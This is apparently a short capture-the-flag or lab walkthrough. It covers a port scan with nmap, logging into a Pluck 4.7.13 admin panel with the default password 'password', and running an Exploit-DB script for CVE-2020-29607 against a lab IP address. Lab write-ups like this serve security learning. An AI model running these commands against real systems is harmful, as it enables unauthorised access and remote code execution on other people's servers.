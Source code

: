 first check out open ports 

```bash
nmap 0.0.0.0 -sV -Pn -sC
```

there is open port 80, some page

`http://10.201.48.24/app/pluck-4.7.13/admin.php?action=page`

after digging find admin panel with default credentaials like `password` used and log in to web panel there in login page i found version and find online `CVE-2020-29607`

works fine 
```bash
python /usr/share/exploitdb/exploits/php/webapps/49909.py 10.201.48.24 80 password /app/pluck-4.7.13/login.php
```

